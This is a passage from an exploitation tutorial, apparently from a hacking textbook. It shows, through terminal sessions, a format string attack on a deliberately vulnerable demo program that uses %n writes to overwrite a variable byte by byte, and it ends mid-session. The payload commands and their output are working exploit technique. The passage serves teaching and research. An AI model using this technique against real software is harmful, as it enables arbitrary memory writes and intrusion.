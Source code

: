 Now that all the memory is set up ahead of time in the beginning of the format string, the second write should be simple.

<pre style="color: white;">
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xbb - 0xaa"
$1 = 17
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\
x97\x04\x08JUNK\x97\x97\x04\x08")%x%x%126x%n%17x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%126x%n%17x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3b0b7fe75fc
0 4b4e554a
[*] test_val @ 0x08049794 = 48042 0x0000bbaa
reader@hacking:~/booksrc $
</pre>

The next desired value for the least significant byte is _0xBB_. A hexadecimal calculator quickly shows that _17_ more bytes need to be written before the next __%n__ format parameter. Since memory has already been set up for a __%x__ format parameter, it’s simple to write _17_ bytes using the field width option.

This process can be repeated for the third and fourth writes.

<pre style="color: white;">
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xcc - 0xbb"
$1 = 17
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xdd - 0xcc"
$1 = 17
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\
x97\x04\x08JUNK\x97\x97\x04\x08")%x%x%126x%n%17x%n%17x%n%17x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%126x%n%17x%n%17x%n%17x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3b0b7fe75fc
0 4b4e554a 4b4e554a 4b4e554a
[*] test_val @ 0x08049794 = -573785174 0xddccbbaa
reader@hacking:~/booksrc $
</pre>

By controlling the least significant byte and performing four writes, an entire address can be written to any memory address. It should be noted that the _three_ bytes found after the target address will also be overwritten using this technique. This can be quickly explored by statically declaring another initialized variable called __next_val__, right after __test_val__, and also displaying this value in the debug output. The changes can be made in an editor or with some more `sed` magic.

Here, __next_val__ is initialized with the value _0x11111111_, so the effect of the write operations on it will be apparent.

<pre style="color: white;">
reader@hacking:~/booksrc $ sed -e 's/72;/72, next_val = 0x11111111;/;/@/{h;s/test/next/g;x;G}'
fmt_vuln.c > fmt_vuln2.c
reader@hacking:~/booksrc $ diff fmt_vuln.c fmt_vuln2.c
7c7
< static int test_val = -72;
---
> static int test_val = -72, next_val = 0x11111111;
27a28
> printf("[*] next_val @ 0x%08x = %d 0x%08x\n", &next_val, next_val, next_val);
reader@hacking:~/booksrc $ gcc -o fmt_vuln2 fmt_vuln2.c
reader@hacking:~/booksrc $ ./fmt_vuln2 test
The right way:
test
The wrong way:
test
[*] test_val @ 0x080497b4 = -72 0xffffffb8